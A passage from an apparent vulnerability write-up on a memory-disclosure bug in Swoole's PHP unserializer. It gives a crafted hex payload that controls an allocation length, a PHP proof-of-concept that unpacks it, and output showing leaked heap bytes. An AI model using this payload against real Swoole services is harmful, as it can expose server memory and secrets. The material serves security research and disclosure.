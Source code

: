 &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
The value taken was shifted. Nice!

## 0x03 Getting dirty
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
At this point we triaged the issue that makes our code to crash. Now its time to start playing a bit with this little boy. If we calculate the right position, the key_len value used for the allocation will be controlled by us (as we can serialize any integer), so we can leak an arbitrary size of memory. Let's try to leak 255 bytes (ff):

e802ea7b02ea7b02227b0a010800737464436c617373018b0470726f7037**ff**0a010800737464436c617373018fc10037130a010800737464436c617373018f**f1**003713454f46
```php

<?php
	$data = "e802ea7b02ea7b02227b0a010800737464436c617373018b0470726f7037ff0a010800737464436c617373018fc10037130a010800737464436c617373018ff1003713454f46";
	$obj = new \Swoole\Serialize();
	$sor = hex2bin($data);
	$ser = $obj->unpack($sor);
	echo "[+] Swoole Unserialized:\n";
	var_dump($ser);
	echo "[+] Memory Leaked:\n";
	$keys = key(get_object_vars($ser[1]));
	echo bin2hex($keys);
	echo "\n[+] Size: \n";
	echo strlen($keys);
?>
```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
Nailed!

```
⇒  php memory_leak.php
[+] Swoole Unserialized:
array(2) {
  [123]=>
  array(2) {
    [123]=>
    array(2) {
      [123]=>
      NULL
      [1]=>
      object(stdClass)#2 (1) {
        ["prop"]=>
        int(-201)
      }
    }
    [1]=>
    object(stdClass)#3 (1) {
      ["prop"]=>
      int(4919)
    }
  }
  [1]=>
  object(stdClass)#4 (1) {
    ["
stdClass7
stdClass7EOFH@@`p@ @P@"]=>
    int(4919)
  }
}
[+] Memory Leaked:
0a010800737464436c617373018fc10037130a010800737464436c617373018ff1003713454f460000c0f0c702bd
```